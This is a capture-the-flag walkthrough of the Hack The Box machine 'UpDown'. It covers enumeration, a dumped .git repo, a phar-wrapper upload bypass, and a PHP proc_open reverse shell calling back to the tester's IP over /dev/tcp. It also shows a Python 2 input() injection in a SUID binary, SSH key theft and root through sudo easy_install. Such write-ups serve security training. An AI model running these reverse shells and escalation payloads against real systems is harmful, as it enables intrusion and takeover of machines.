









# UpDown - Medium

Target IP: **10.129.227.227**

## User Flag

Initial scan: ```sudo nmap -sC -sV 10.129.227.227 -v```

Output shows standard port 22 for ssh and port 80 running Apache 2.4.41.

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 9e:1f:98:d7:c8:ba:61:db:f1:49:66:9d:70:17:02:e7 (RSA)
|   256 c2:1c:fe:11:52:e3:d7:e5:f7:59:18:6b:68:45:3f:62 (ECDSA)
|_  256 5f:6e:12:67:0a:66:e8:e2:b7:61:be:c4:14:3a:d3:8e (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Is my Website up ?
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's navigate to the website. It seems to run some kind of query/command on the back-end server to return us the result. Also, the site mentions ```siteisup.htb```, so let's add it to our ```/etc/hosts``` file.



Let's capture a request from this website.

When we enter a dummy website, it seems to return to us a message saying that the website seems down.



I'm convinced that our input is being processed by the form to make a command that runs on the back-end, so I want to try command injection.

Inputting ```http://a.com;whoami``` returns a message saying it detected a hacking attempt.



We need to find a payload that bypasses the filtering.

It seems like ```${IFS}``` is filtered, ```whoami``` is filtered even after playing with the capitalization, and all the common command injection characters are properly filtered as well.

I tried a lot of payloads but every attempt was getting filtered, so let's look elsewhere and see if there are other vectors.

Directory enumeration reveals a ```/dev``` directory, but navigating to it gives us a blank page.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ukaqlmcq5r]─[~]
└──╼ [★]$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://siteisup.htb/FUZZ -ic

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://siteisup.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 1131, Words: 186, Lines: 40, Duration: 723ms]
dev                     [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 7ms]
                        [Status: 200, Size: 1131, Words: 186, Lines: 40, Duration: 8ms]
:: Progress: [87651/87651] :: Job [1/1] :: 5882 req/sec :: Duration: [0:00:19] :: Errors: 0 ::
```

There is also a ```dev``` subdomain, but it returns a 403. Let's add it to our hosts file anyways.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ukaqlmcq5r]─[~]
└──╼ [★]$ ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://siteisup.htb -H "Host: FUZZ.siteisup.htb" -ic -fs 1131

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://siteisup.htb
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.siteisup.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 1131
________________________________________________

dev                     [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 7ms]
:: Progress: [4989/4989] :: Job [1/1] :: 114 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```

I want to revisit the ```/dev``` directory because it we have access to it, and we might find some other directories inside of it.

Enumerating the second layer, we find a publicly exposed ```.git``` directory.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ukaqlmcq5r]─[~]
└──╼ [★]$ ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -u http://siteisup.htb/dev/FUZZ -ic

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://siteisup.htb/dev/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.hta                    [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 7ms]
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 7ms]
.git/index              [Status: 200, Size: 521, Words: 4, Lines: 3, Duration: 9ms]
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 414ms]
.git/HEAD               [Status: 200, Size: 21, Words: 2, Lines: 2, Duration: 727ms]
.git/logs/              [Status: 200, Size: 1143, Words: 77, Lines: 18, Duration: 728ms]
.git/config             [Status: 200, Size: 298, Words: 23, Lines: 14, Duration: 1418ms]
.git                    [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 1438ms]
index.php               [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 6ms]
:: Progress: [4750/4750] :: Job [1/1] :: 134 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```

Let's dump the repo with ```git-dumper```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ukaqlmcq5r]─[~]
└──╼ [★]$ git-dumper http://siteisup.htb/dev git
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ukaqlmcq5r]─[~]
└──╼ [★]$ cd git
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ukaqlmcq5r]─[~/git]
└──╼ [★]$ ls -la
total 40
drwxrwxr-x  3 htb-mp-3199654 htb-mp-3199654 4096 Sep 23 11:14 .
drwx------ 23 htb-mp-3199654 htb-mp-3199654 4096 Sep 23 11:13 ..
-rw-rw-r--  1 htb-mp-3199654 htb-mp-3199654   59 Sep 23 11:14 admin.php
-rw-rw-r--  1 htb-mp-3199654 htb-mp-3199654  147 Sep 23 11:14 changelog.txt
-rw-rw-r--  1 htb-mp-3199654 htb-mp-3199654 3145 Sep 23 11:14 checker.php
drwxrwxr-x  7 htb-mp-3199654 htb-mp-3199654 4096 Sep 23 11:14 .git
-rw-rw-r--  1 htb-mp-3199654 htb-mp-3199654  117 Sep 23 11:14 .htaccess
-rw-rw-r--  1 htb-mp-3199654 htb-mp-3199654  273 Sep 23 11:14 index.php
-rw-rw-r--  1 htb-mp-3199654 htb-mp-3199654 5531 Sep 23 11:14 stylesheet.css
```

```git status``` and ```git diff``` doesn't give us anything.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ukaqlmcq5r]─[~/git]
└──╼ [★]$ git status
On branch main
Your branch is up to date with 'origin/main'.

nothing to commit, working tree clean
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ukaqlmcq5r]─[~/git]
└──╼ [★]$ git diff
```

Inside ```checker.php```, it stores the source code for the filtering mechanism. Let's get an understanding of how it works then try to bypass it.

The website seems to be putting our input as a content in a file then parsing the file contents to make the query.

The conditions to return the error message for hacking is in the else case of ```if(!preg_match("#file://#i",$site) && !preg_match("#data://#i",$site) && !preg_match("#ftp://#i",$site))```.

```
  # Upload the file.
	$final_path = $dir.$file;
	move_uploaded_file($_FILES['file']['tmp_name'], "{$final_path}");
	
  # Read the uploaded file.
	$websites = explode("\n",file_get_contents($final_path));
	
	foreach($websites as $site){
		$site=trim($site);
		if(!preg_match("#file://#i",$site) && !preg_match("#data://#i",$site) && !preg_match("#ftp://#i",$site)){
			$check=isitup($site);
			if($check){
				echo "<center>{$site}<br><font color='green'>is up ^_^</font></center>";
			}else{
				echo "<center>{$site}<br><font color='red'>seems to be down :(</font></center>";
			}	
		}else{
			echo "<center><font color='red'>Hacking attempt was detected !</font></center>";
		}
	}
	
  # Delete the uploaded file.
	@unlink($final_path);
}
```

The confusing part here is that I don't know why the code is checking a file when we don't upload a file. This might be for another website.

```.htaccess``` seems to be defining special conditions for a user to access a developer resource, perhaps for ```dev.siteisup.htb```. It requires a special required header ```Special-Dev``` with a value of ```only4dev```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ukaqlmcq5r]─[~/git]
└──╼ [★]$ cat .htaccess
SetEnvIfNoCase Special-Dev "only4dev" Required-Header
Order Deny,Allow
Deny from All
Allow from env=Required-Header
```

Let's add this to our request to ```dev.siteisup.htb```



After forwarding, we get access to the website. This seems like the website we saw that had the source code from before.



Now we can get a proper understanding of what this does.

This function seems to be executing the cURL request. It takes our urls from the uploaded file.

```
function isitup($url){
	$ch=curl_init();
	curl_setopt($ch, CURLOPT_URL, trim($url));
	curl_setopt($ch, CURLOPT_USERAGENT, "siteisup.htb beta");
	curl_setopt($ch, CURLOPT_HEADER, 1);
	curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
	curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
	curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, 0);
	curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, 0);
	curl_setopt($ch, CURLOPT_TIMEOUT, 30);
	$f = curl_exec($ch);
	$header = curl_getinfo($ch);
	if($f AND $header['http_code'] == 200){
		return array(true,$f);
	}else{
		return false;
	}
    curl_close($ch);
}
```

Let's note that since the file is deleted right after the checks, it is unlikely that we are able to bypass the extension filter then navigate to the file to initiate a reverse shell.

My idea is that we can host a bash script that holds reverse shell code on a webserver, then pipe it into bash to have it execute on the remote machine. So something like ```http://<OUR_IP>:<OUR:PORT>/shell|bash```.

Let's try it.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ukaqlmcq5r]─[~]
└──╼ [★]$ cat shell
#!bin/bash

bash -i >& /dev/tcp/10.10.15.194/4444 0>&1
```

We will upload the ```curl_link``` file, with the intention of having the remote machine initiate a connection to our webserver to download the shell then execute it.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ukaqlmcq5r]─[~]
└──╼ [★]$ cat curl_link 
http://10.10.15.194:8000/shell|bash
```

After trying this it grabs the file named ```/shell|bash```, which is not right.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ukaqlmcq5r]─[~]
└──╼ [★]$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.227.227 - - [23/Sep/2026 11:54:51] code 404, message File not found
10.129.227.227 - - [23/Sep/2026 11:54:51] "GET /shell|bash HTTP/1.1" 404 -
```

I don't think this method is possible, because we aren't able to chain the curl command to bash since it is being ran from the function inside the source code. We only have control of what the curl command takes in.

We can navigate to ```/uploads```, where directory listing is enabled. We don't see any directories inside of it because of the ```@unlink``` function that deletes all files after checking.



I noticed however, when uploading zip files, something in the application crashes and doesn't delete the file. Using this fact, we might get execution of php code by uploading a zip file that bypasses the blacklist of ```.zip``` simply by renaming, then using the ```phar``` wrapper to execute the php code.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ukaqlmcq5r]─[~]
└──╼ [★]$ cat hi.php
<?php
phpinfo();
?>
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ukaqlmcq5r]─[~]
└──╼ [★]$ sudo nano hi.txt
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ukaqlmcq5r]─[~]
└──╼ [★]$ zip hi.hi hi.php hi.txt
  adding: hi.php (stored 0%)
  adding: hi.txt (stored 0%)
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ukaqlmcq5r]─[~]
└──╼ [★]$ file hi.hi
hi.hi: Zip archive data, made by v3.0 UNIX, extract using at least v1.0, last modified Sep 23 2026 12:13:36, uncompressed size 20, method=store
```

After we upload the file, we can see that it stays there.



Let's now use the ```phar``` wrapper to navigate and execute the php code inside the zip file.

Navigating to ```http://dev.siteisup.htb/?page=phar://uploads/509ded063fab4e1e48932a8e679d8f98/hi.hi/hi``` confirms execution.

Looking at the configuration, a lot of the common php functions used to get shells like ```system()```, ```exec()```, and ```fsockopen()``` are blocked. However, ```proc_open()``` is not.



Let's use a reverse shell that utilizes ```proc_open()```.

```
<?php
$ip = "10.10.15.194";
$port = 4444;

$shell = "/bin/bash -c '/bin/bash -i >& /dev/tcp/$ip/$port 0>&1";
$descriptorspec = array(
    0 => array("pipe", "r"),
    1 => array("pipe", "w"),
    2 => array("pipe", "w")
);

$process = proc_open($shell, $descriptorspec, $pipes);
if (is_resource($process)) {
    proc_close($process);
}
?>
```

Let's zip this into a zip file and navigate to it.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ukaqlmcq5r]─[~]
└──╼ [★]$ zip shell.hi shell.php
  adding: shell.php (deflated 41%)
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ukaqlmcq5r]─[~]
└──╼ [★]$ file shell.hi
shell.hi: Zip archive data, made by v3.0 UNIX, extract using at least v2.0, last modified Sep 23 2026 12:32:50, uncompressed size 339, method=deflate
```

Navigating to ```/uploads```, we see our file. Let's also note that the files seem to be getting routinely deleted from a cron job of some sorts, since our previous test zip file is gone.



Navigating to ```http://dev.siteisup.htb/?page=phar://uploads/8813814986cbd2a9820a6aab00067058/shell.hi/shell```, we catch a shell as ```www-data```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ukaqlmcq5r]─[~]
└──╼ [★]$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.227.227 51848
bash: cannot set terminal process group (892): Inappropriate ioctl for device
bash: no job control in this shell
www-data@updown:/var/www/dev$ whoami
whoami
www-data
```

We are looking to move laterally to ```developer```.

```
www-data@updown:/var/www$ cd /home
www-data@updown:/home$ ls -la
total 12
drwxr-xr-x  3 root      root      4096 Jun 22  2022 .
drwxr-xr-x 19 root      root      4096 Aug  3  2022 ..
drwxr-xr-x  6 developer developer 4096 Aug 30  2022 developer
```

In the home directory of ```developer```, there is a binary with the SUID bit set and a python script.

```
www-data@updown:/home/developer/dev$ ls -la
total 32
drwxr-x--- 2 developer www-data   4096 Jun 22  2022 .
drwxr-xr-x 6 developer developer  4096 Aug 30  2022 ..
-rwsr-x--- 1 developer www-data  16928 Jun 22  2022 siteisup
-rwxr-x--- 1 developer www-data    154 Jun 22  2022 siteisup_test.py
```

Running the binary seems to be running the python script and taking in the url.

```
www-data@updown:/home/developer/dev$ ./siteisup
Welcome to 'siteisup.htb' application

Enter URL here:hi
Traceback (most recent call last):
  File "/home/developer/dev/siteisup_test.py", line 3, in <module>
    url = input("Enter URL here:")
  File "<string>", line 1, in <module>
NameError: name 'hi' is not defined
```

Running it even with a valid url returns a python error.

```
www-data@updown:/home/developer/dev$ ./siteisup           
Welcome to 'siteisup.htb' application

Enter URL here:http://google.com
Traceback (most recent call last):
  File "/home/developer/dev/siteisup_test.py", line 3, in <module>
    url = input("Enter URL here:")
  File "<string>", line 1
    http://google.com
        ^
SyntaxError: invalid syntax
```

Something must be going on inside the python script itself. Let's look at it.

```
www-data@updown:/home/developer/dev$ cat siteisup_test.py 
import requests

url = input("Enter URL here:")
page = requests.get(url)
if page.status_code == 200:
	print "Website is up"
else:
	print "Website is down"
```

We can see that this is expected to run with Python 2, the way the print statements are written. The input() function in Python 2 is known to be prone to exploitation because the input is passed to eval for it to run. That means the urls were failing because it was trying to execute it as code. In that regard, we should be able to pass in Python payloads to give us a shell.

Let's try it.

```
www-data@updown:/home/developer/dev$ ./siteisup
Welcome to 'siteisup.htb' application

Enter URL here:__import__('os').system('bash -p')                                      
developer@updown:/home/developer/dev$ whoami
developer
```

We get a shell as ```developer```, but since our GID is still ```www-data```, we can't read the user flag. However, there is an ```.ssh``` directory in ```developer```'s home directory, so we can transfer over the private key and log in that way.

```
developer@updown:/home/developer$ cd .ssh
developer@updown:/home/developer/.ssh$ ls -la
total 20
drwx------ 2 developer developer 4096 Aug  2  2022 .
drwxr-xr-x 6 developer developer 4096 Aug 30  2022 ..
-rw-rw-r-- 1 developer developer  572 Aug  2  2022 authorized_keys
-rw------- 1 developer developer 2602 Aug  2  2022 id_rsa
-rw-r--r-- 1 developer developer  572 Aug  2  2022 id_rsa.pub
```

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ukaqlmcq5r]─[~]
└──╼ [★]$ ssh -i id_rsa developer@10.129.227.227

developer@updown:~$ whoami
developer
```

We can proceed to get the user flag from here.

## Root Flag

We can run an unusual binary as ```root``` without a password.

```
developer@updown:~$ sudo -l
Matching Defaults entries for developer on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User developer may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/local/bin/easy_install
```

Looking on GTFOBins, it tells us that the binary runs a python script named ```setup.py``` in the directory that is passed as an argument. Therefore, we can put malicious code in ```setup.py``` then call the binary to have it execute the code.

Let's try it.

```
developer@updown:~$ echo 'import os; os.system("exec /bin/sh </dev/tty >/dev/tty 2>/dev/tty")' >setup.py
developer@updown:~$ sudo easy_install .
WARNING: The easy_install command is deprecated and will be removed in a future version.
Processing .
Writing /home/developer/setup.cfg
Running setup.py -q bdist_egg --dist-dir /home/developer/egg-dist-tmp-Jvzqks
# whoami
root
```

We can proceed to get the root flag from here.

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
